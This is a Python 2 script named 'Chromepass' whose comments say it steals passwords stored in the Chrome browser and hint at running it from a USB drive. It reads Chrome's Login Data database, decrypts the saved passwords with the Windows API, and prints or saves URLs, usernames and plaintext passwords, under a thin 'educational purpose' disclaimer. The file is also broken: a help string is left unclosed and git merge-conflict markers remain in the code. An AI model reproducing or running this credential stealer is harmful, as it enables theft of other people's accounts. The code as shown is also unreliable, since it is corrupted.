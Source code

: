 # Chromepass
//Steal password stored in chrome browser
//Use pendrive properly 
//Only for educational purpose
//Do not use for illegal purpose

import sqlite3, win32crypt, os, sys

def decrypt(path, save_path):
	if not os.path.isfile(path):
		print 'The file doesn\'t exist!'
		return
	
	connChrome = sqlite3.connect(path)
	cursor = connChrome.cursor()
	try:
		cursor.execute('SELECT action_url, username_value, password_value FROM logins')
	except:
		print 'Impossible to read ' + path
		return

	print '\t\t\t*** Passwords ***'
	
	for query in cursor.fetchall():
		passwd = win32crypt.CryptUnprotectData(query[2], None, None, None, 0)[1]
		if passwd:
			print 'URL: ' + query[0]
			print 'User: ' + query[1]
			print 'Password: ' + passwd
			print '--------------------'
	
			if save_path != '':
				passwordsFile = open(save_path, 'a')
				passwordsFile.writelines('URL: ' + query[0] + '\nUser: ' + query[1] + '\nPassword: ' + passwd + '\n--------------------\n')
				passwordsFile.close()

def show_help():
    print '''  Usage:
    python ChromePass.py                                   # Run with the default location of the Login Data file.
    python ChromePass.py "path_to_file"                    # Run with a path to the Login Data file.
    python ChromePass.py "path_to_file" -S "path_to_save"  # Run with a path to the Login Data file and save.
    python ChromePass.py -S "path_to_save"                 # Save the content of the default Login Data file.

<<<<<<< HEAD
 
=======

>>>>>>> 828286503238c3fd4a8a3b1bbae5ce8570f7f331
if __name__ == '__main__':
    arg = sys.argv
    args = len(arg)
    login_data = os.getenv('LOCALAPPDATA') + '\Google\Chrome\User Data\Default\Login Data'

    if args == 1:
        decrypt(login_data, '')
    elif args == 2:
        decrypt(arg[1], '')
    elif args == 3:
        if arg[1].upper() == '-S':
            decrypt(login_data, arg[2])
        else:
            show_help()
    elif args == 4:
        if arg[2].upper() == '-S':
            decrypt(arg[1], arg[3])
        else:
            show_help()
    else:
        show_help()

